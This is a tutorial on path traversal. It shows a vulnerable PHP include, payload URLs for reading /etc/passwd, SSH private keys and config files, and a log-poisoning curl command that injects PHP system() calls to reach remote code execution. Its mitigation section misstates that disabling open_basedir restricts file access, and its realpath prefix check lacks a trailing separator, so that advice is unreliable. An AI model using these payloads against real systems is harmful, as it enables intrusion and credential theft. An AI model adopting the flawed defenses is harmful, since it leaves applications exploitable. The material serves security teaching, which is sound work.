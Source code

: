# Path Traversal Vulnerability

Path traversal (also called directory traversal) is a web security vulnerability that allows an attacker to access arbitrary files and directories outside the intended scope by manipulating file paths in user input. This can lead to sensitive file disclosure, source code access, and even remote code execution in some cases.
How Path Traversal Works

A web application may improperly handle user-supplied file paths when retrieving files. If the application does not properly validate input, an attacker can use ../ (dot-dot-slash) sequences to traverse directories and access restricted files.
Example Vulnerable Code (PHP)

```
<?php
$file = $_GET['file'];
include("uploads/" . $file);
?>

```
An attacker could request:

`http://example.com/index.php?file=../../../../../etc/passwd`

This allows reading of /etc/passwd (on Linux), potentially exposing system user accounts.
Common Exploits

1. Reading Sensitive System Files

On Linux/macOS:

http://example.com/page?file=../../../../etc/passwd
http://example.com/page?file=../../../../etc/hosts
http://example.com/page?file=../../../../root/.ssh/id_rsa

On Windows:

http://example.com/page?file=../../../../windows/win.ini
http://example.com/page?file=../../../../windows/system32/drivers/etc/hosts

2. Reading Web Application Source Code

Attackers can read PHP source files or config files:

`http://example.com/page?file=../../../../var/www/html/config.php`

This may expose database credentials.
3. Log Poisoning for Code Execution

    Inject PHP code into a log file using HTTP headers:

`curl -A "<?php system('id'); ?>" http://example.com`

Then include the log file:

    http://example.com/page?file=../../../../var/log/apache2/access.log

    This can lead to remote code execution (RCE).

Mitigation & Prevention
1. Validate & Sanitize Input

    Restrict input to expected filenames.
    Reject ../ sequences and null bytes (%00).

2. Use an Allowlist for File Access

    Instead of direct file input, use a predefined list:

```
$allowed_files = ["about.html", "contact.html"];
    if (!in_array($_GET['file'], $allowed_files)) {
        die("Invalid file!");
    }

```
3. Use Secure File Access Functions

    Use absolute paths instead of relative ones.
    Example in PHP:

```
    $file = realpath("uploads/" . $_GET['file']);
    if (strpos($file, realpath("uploads/")) !== 0) {
        die("Access denied!");
    }

```
4. Configure Web Server Security

    Disable open_basedir in PHP to restrict file access.
    Set proper permissions (chmod 640) on sensitive files.
    Use a Web Application Firewall (WAF) to block directory traversal attempts.

Conclusion

Path traversal vulnerabilities allow attackers to access files outside the intended directory, potentially exposing sensitive information or leading to RCE. Proper input validation, whitelisting, and secure file access methods are necessary to prevent this attack.
